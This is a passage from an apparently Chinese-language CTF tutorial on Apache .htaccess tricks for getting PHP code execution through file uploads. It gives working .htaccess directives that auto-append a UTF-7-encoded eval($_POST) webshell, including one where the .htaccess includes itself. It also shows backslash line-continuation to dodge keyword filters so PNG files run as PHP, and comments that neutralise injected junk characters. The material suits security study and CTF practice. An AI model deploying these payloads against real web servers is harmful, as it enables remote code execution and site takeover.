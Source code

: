 然后我们使用 auto_append_file 将其包含进来并设置编码格式为 UTF-7 就行了：

```
php_value auto_append_file images.png
php_flag zend.multibyte 1
php_value zend.script_encoding "UTF-7"
```

当然，也可以使用 php://filer 伪协议进行 UTF-7 与 UTF-8 之间的转换，即：

```
php_value auto_append_file "php://filter/read=convert.iconv.utf-7.utf-8/resource=images.png"
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01b5f7041041ba451b.png)

也可以使用 .htaccess 自身包含来执行 Webshell，这样就不需要再上传一个 images.png 了：

```
php_value auto_append_file .htaccess
php_flag zend.multibyte 1
php_value zend.script_encoding "UTF-7"
# +ADw?php eval(+ACQAXw-POST+AFs-whoami+AF0)+ADs?+AD4-
```

同理，除了使用 UTF-7 外，UTF-16、UTF-32 都可以使用，方法都是一样的。



## 与 .htaccess 相关的几个 Bypass

与 .htaccess 相关限制除了使用黑名单限制 .htaccess 外，最常见的就是限制关键字以及加入脏字符啥的了。

### <a class="reference-link" name="%E7%BB%95%E8%BF%87%E5%85%B3%E9%94%AE%E5%AD%97%E8%BF%87%E6%BB%A4"></a>绕过关键字过滤

绕过对关键字的过滤我们可以使用反斜杠 `\` 加换行来实现。比如题目过滤了 type、php 等敏感字符，此时为了利用 .htaccess 解析图片马，我们需要将 .htaccess 写成这样：

```
AddTy\
pe application/x-httpd-ph\
p .png

# 即: AddType application/x-httpd-php .png
```

### <a class="reference-link" name="%E7%BB%95%E8%BF%87%E8%84%8F%E5%AD%97%E7%AC%A6"></a>绕过脏字符

上面的 [XNUCA2019Qualifier]EasyPHP 这道题目已经涉及到了。即有时候，题目会在我们上传或写入的文件中加入一个混乱的字符（脏字符），由于这些字符不是 .htaccess 文件的语法或指令，所以会使我们的.htaccess文件不生效，出现响应500的问题。为了时我们写入的 .htaccess 文件生效，我们要采用 `#` 对脏字符进行注释，或使用反斜杠 `\` 将换行符转义成普通字符。

### <a class="reference-link" name="%E7%BB%95%E8%BF%87%E5%AF%B9%E4%B8%8A%E4%BC%A0%E5%9B%BE%E7%89%87%E7%9A%84%E5%B0%BA%E5%AF%B8%E9%99%90%E5%88%B6"></a>绕过对上传图片的尺寸限制
